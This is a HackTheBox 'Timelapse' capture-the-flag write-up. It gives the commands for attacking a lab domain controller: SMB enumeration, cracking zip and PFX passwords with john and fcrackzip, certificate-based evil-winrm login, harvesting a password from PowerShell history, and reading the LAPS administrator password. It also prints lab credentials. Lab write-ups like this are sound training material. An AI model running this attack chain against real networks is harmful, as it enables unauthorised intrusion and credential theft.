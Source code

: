 # Recon

As usual we start with a port scan against the target:
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.11.152 -T5
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/1.png">

From the looks of it we can tell it's a domain controller. Lot's of open ports to investigate.

# Enumeration
Normally a domain controller has great enumeration potential. We can use tools like ```smbclient, enum4linux, smbmap, nbtscan, rpcclient``` and there are numerous ```impacket``` scripts available.

Using ```rpcclient``` we see what privileges the current users has.
```
rpcclient -U '' -N 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/5.png">

Unfortunately ```enumdomusers``` is not allowed. At this point is just trial and error running different commands. Let's leave it for now.

After doing some more enumeration we find a share at ```Shares``` containing some files. 
```
smbclient -N -L //10.10.11.152/
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/2.png">



# Initial Foothold
Extracting the zipfile requires a password. We can use ```7z``` to get more information on the zipfile and it's encryption.

```
7z l -slt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/3.png">


We can try to crack the password using ```john``` or ```fcrackzip```. In this case i chose the latter.

```
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/4.png">


We have cracked the password and can now extract ```legacyy_dev_auth.pfx```.

A PFX file indicates a certificate in PKCS#12 format; it contains the certificate, the intermediate authority certificate necessary for the trustworthiness of the certificate, and the private key to the certificate. Think of it as an archive that stores everything you need to deploy a certificate.

I had to update ```john``` in order to have ```pfx2john``` available and run the following command to create a suitable hash for ```john```.

```
pfx2john legacy_dev_auth.pfx > hash
```

And pass it along to john:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash    
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/6.png">

We have cracked the password using the rockyou wordlist. I found [documentation](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) how one could extract the private key and certificate from a pfx file.

Extract the private key:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacy.key -nodes  
``` 

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/7.png">

And we do the same to extract the certificate:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacy.crt 
```

After this we alter the files by removing the header so we are only left with the key itself. We can now continue by using the keys to connect to the target with ```evil-winrm``` .

```
evil-winrm -S -k legacy.key -c legacy.crt -i 10.10.11.152
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Timelapse/assets/8.png">

# Lateral Movement
We are unable to use ```winPEAS``` because Microsoft Defender is blocking the file. Using an obfuscated version didn't help either. After further enumerating the host for the usual ways for privilege escalation i was unable to find anything useful. I got some help pointing me in the right direction and found the Powershell history file:

pic9

We found the password for the ```svc_deploy``` account and can use this to run commands as the this user.

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
```

And we can check for privileges:
```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /priv}

invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
```

pic10


# Privilege Escalation
We see that this user is member of the ```LAPS_Readers``` group which is useful to us because we can probably extract the local administrator password. We can check for this by using the ```AD-Module```.

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

pic11

Now that we've found the password we can again use ```evil-winrm``` to connect to the target as ```administrator```.

```
evil-winrm -i 10.10.11.152 -u administrator -p '6yHTPR#s417Lo6/7kC{aP!WC' 
```






